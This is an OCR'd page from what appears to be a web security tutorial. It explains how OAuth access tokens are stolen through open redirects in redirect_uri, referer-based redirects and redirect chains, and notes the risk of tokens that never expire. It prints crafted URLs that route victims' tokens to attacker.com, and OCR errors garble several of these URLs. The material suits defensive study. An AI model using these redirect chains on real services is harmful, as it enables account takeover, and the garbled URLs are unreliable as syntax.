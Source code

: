 
##### Vulnerabilities in OAuth
Sometimes attackers can steal key tokens of OAuth by using open redirects and by doing so he can bypass OAuth. Attackers do this by manipulating redirect_uri parameter to steal access_token from victims accounts.

Redirect_uri parameter specifies, where identity provider sends key information such as access_token. Because of that main identity provides requires service providers to provide allowed URL addresses which can be used with redirect_uri. 
BUT if in one of the allowed parameters there is open redirect? Most of the times tokens are communicated by using fragment of URL, which is immutable. If attackers can manioulate the flow of OAuth to their own domain, he can steal access_token from this URL fragment and try to gain access to users account.
One way of redirecting the OAuth flow is through a URL-parameterbased open redirect. For example, using the following URL as the redirect_uri:
``redirect_uri=https://example.com/callback?next=attacker.com
will cause the flow to redirect to the callback URL first
``https://example.com/callback?next=attacker.comitaccess_token=xyz123
and then to the attacker's domain:
``https://attacker.comttaccess_token=xyz123
The attacker can send the victim a crafted URL that will initiate the OAuth flow, and then run a listener on their server to harvest the leaked tokens:
```
identity.com/oauth?
client id-CLIENT ID
&response type-code
&state-STATE
&redirect uri-https://example.com/callback?next-attacker.com 
&scope=email
```
Another way of redirecting the OAuth flow is through a referer-based open redirect. In this case, the attacker would have to set up the referer header by initiating the OAuth flow from their domain:
``<a href="https://example.com/login via facebook"»Click here to log in to example.com</a>
This will cause the flow to redirect to the callback URL first:
``https://example.com/callback?itaccess token-xyz123
Then it would redirect to the attacker's domain via the referer:
``https://attacker.comfaccess token-xyz123
Even when attackers can't find an open redirect on the OAuth endpoint itself, they can still smuggle the tokens offsite if they can find an open redirect chain. For example, let's say the redirect uri parameter permits only further redirects to URLs that are under the example.com domain. If attackers can find an open redirect within that domain, they can still steal OAuth tokens via redirects. Let’s say an unfixed open redirect is on the logout endpoint of example.com:
``https://example.com/logout ?next=attacker.com
By taking advantage of this open redirect, the attacker can form a chain of redirects to eventually smuggle the token offsite, starting with the following:
``redirect uri-https://example.com/callback?next-example.com/logout?next-attacker.com
This redirect uri will first cause the flow to redirect to the callback URL:
``https: //example.com/callback?next-example.com/logout?next-attacker.comitaccess token-xyz123
Then to the logout URL vulnerable to open redirect:
``https: //example.com/logout?next-attacker.comitaccess token-xyz123
Then it will redirect to the attacker's domain. The attacker can harvest the access token via their server logs, and access the user's resources via the stolen token:
``https://attacker.comitaccess token-xyz123
Besides stealing access tokens via an open redirect, long-lived tokens that don't expire are also a major OAuth vulnerability. Sometimes tokens aren't invalidated periodically and can be used by attackers long after they are stolen, and remain valid even after password reset. You can test for these issues by using the same access tokens after logout and after password reset.
